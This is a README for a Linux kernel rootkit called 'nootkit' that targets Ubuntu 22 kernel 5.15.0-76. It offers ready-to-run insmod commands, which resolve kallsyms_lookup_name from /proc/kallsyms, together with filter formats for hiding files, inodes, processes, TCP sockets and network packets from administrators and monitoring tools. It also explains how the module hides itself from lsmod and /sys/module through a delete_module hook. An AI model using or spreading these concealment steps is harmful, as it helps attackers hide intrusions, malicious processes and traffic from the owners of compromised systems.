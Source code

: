 # Nootkit

Noot noot?
![noot?](https://i.kym-cdn.com/entries/icons/original/000/040/642/terrifiednootnoot.jpg)

A basic rootkit with resource hiding capabilities.

You are welcome to browse the [story-oriented documentation](docs/section-1.md)
or give it a go.

## Compiling

Currently only Ubuntu 22 LTS kernels of version 5.15.0-76 are supported -
and to compile the module you'll have to get the corresponding headers as they aren't
included.

Headers are assumed to be located at `kernel-headers/linux-headers-5.15.0-76-generic`,
in the same exact structure as they are present on Ubuntu machines at
`/lib/modules/5.15.0-76-generic`.

## Usage

`nootkit` can receive a configuration through module parameters -
which are at the moment not exposed after the module has been loaded.

An example `insmod` command to set certain filenames and inodes to be hidden
from common usermode APIs is:

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,bigboy \
hide_inodes=138210,17635,1337
```

### Configuration

The kernel space address of `kallsyms_lookup_name` must be provided to the module at load time,
as it is used to locate other unexported symbols.

Possible module arguments are:

- `kallsyms_lookup_name`: Must be present, can be obtained via `/proc/kallsyms` as shown above
- `hide_filenames`: Comma-separated list of file names and absolute paths to hide from usermode dir listings
- `hide_inodes`: Comma-separated list of inode numbers to hide from usermode dir listings
- `hide_sockets`: Comma-separated list of socket filter strings following the format (explained
  [below](#socket-filter-format)) - IPv4 socket matching this filter will be hidden from `netstat` commands.
- `hide_packets`: Comma-separated list of packet filter strings following the format (explained [below](#packet-filter-format))

You are also welcome to check out the [makefile](Makefile) for some semi-automatic tests.

#### Socket Filter Format

Pretty simple really, just follow this template:

```txt
IP PROTO = 6; LOCAL = 0.0.0.0/0.0.0.0:1300-1400; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;
```

Where `PROTO` is a valid IP protocol number, although only TCP sockets are supported.
`PROTO` 0 is magic and matches any protocol number.

`LOCAL` describes the local IP/Mask:PortRangeStart-PortRangeEnd, and `FOREIGN` does the same for... The foreign address.

Port ranges are *inclusive*. Spaces aren't mandatory anywhere.

#### Packet Filter Format

A lot like the socket filter format above (even represented the same in memory!), but a little more detailed:

```txt
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1300-1350;

# Or ARP for example

ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535;
```

Again the `PROTO`s are each valid protocol numbers for their respective protocol, and 0 is magic and matches all protocols.
Note that `ETH PROTO` parses input as *hexadecimal*.

## Features

### Hiding Files From Dir Listings

Examples:

#### Hide all files named `hello`, no matter the path, from dir listings

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello
```

#### In addition, hide the paths `/root/bigboy` and `/home/john/wayne`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,/root/bigboy,/home/john/wayne
```

#### Hide all files with an inode number of `524290`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_inodes=524290
```

### Hiding Processes From Various Utilities

Hiding processes from various utilities including `ps` can be done by hiding the path `/proc/[pid]` corresponding
to the process. There is no specific API at the moment specific to hiding processes.

For example:

#### Hide the processes with PIDs `7047` and `682` from `ps`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=/proc/7047,/proc/682
```

### Hiding TCP Sockets From Various Utilities

Sockets can be hidden from `netstat` and other utilities by specifying their properties in the socket filter format
shown [above](#socket-filter-format).

Example:

#### Hide all sockets bound to local TCP ports 10 to 30, on the local address 192.168.122.122

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_sockets=\"PROTO = 1; LOCAL = 192.168.122.122/255.255.255.255:10-30; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;\""
```

### Hiding Packets

Packets can be hidden at a very low level - neither `AF_PACKET` sockets or even XDP BPF running in the generic
context will see them.
Packets can be hidden by specifying their properties in the packet filter format shown [above](#packet-filter-format).

Example:

#### Hide all TCP packets directed to port 1337, and all ARP packets in general

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_packets=\" \
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1337-1337;, \
ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETHDST = 00:00:00:00:00:00; IPPROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535; \
\""
```

### Hiding The Module Itself

`nootkit`'s self hiding feature has two aspects:

- Hiding from `/proc/modules` and therefore `lsmod`.

- Removing the `/sys/module` directory associated with the module.

To allow removing the module, a hook is installed for the syscall `delete_module`, such that running `rmmod -f nootkit`
*once* disables the hiding of the module from both locations, and running it again removes the module regularly.
See the reason for this implementation in [src/arch/x86_64/hide/module_sys.c](src/arch/x86_64/hide/module_sys.c).

The `-f` flag is necessary, since without it `rmmod` checks the directory `/sys/module` for details about the requested
module to remove, and `nootkit`'s hiding from it prevent's `rmmod` from following up with a `delete_module` syscall.

## Project Overview

There are 3 core parts to `nootkit`:

- A standard hooking mechanism, exposed in [src/hook.h](src/hook.h) and defined in an architecture specific source
  file ([src/arch/x86_64/hook.c](src/arch/x86_64/hook.c)).
  - The main APIs here are `HOOK_DEFINE` and `HOOK_EXTERN`, used to generate and expose functions for enabling and
    disabling hooks - macros for syscall hook definitions are also in place.
- A centralized resolution and way of exposing unexported kernel symbols by way of `kallsyms`.
  Function and global variable signatures are defined once in an X-macro in [src/ksyms.h](src/ksyms.h), and are
  automatically set to be resolved by the function `resolve_ksyms` ([src/ksyms.c](src/ksyms.c)) called on module
  initialization.
- A central configuration method by module parameters; Both raw parameters and in some cases parsed parameter values
  are available for use by nootkit modules, with some helper functions for performing common operations on configuration
  values (e.g. `filter_transport` for matching values against a transport-layer network filter). [src/config.h](src/config.h),
  [src/config.c](src/config.c).

Usermode hiding functionalities are defined in the general [src/hide](src/hide/) directory, or in the architecture
specific [src/arch/x86_64/hide/](src/arch/x86_64/hide/) directory in relevant cases.

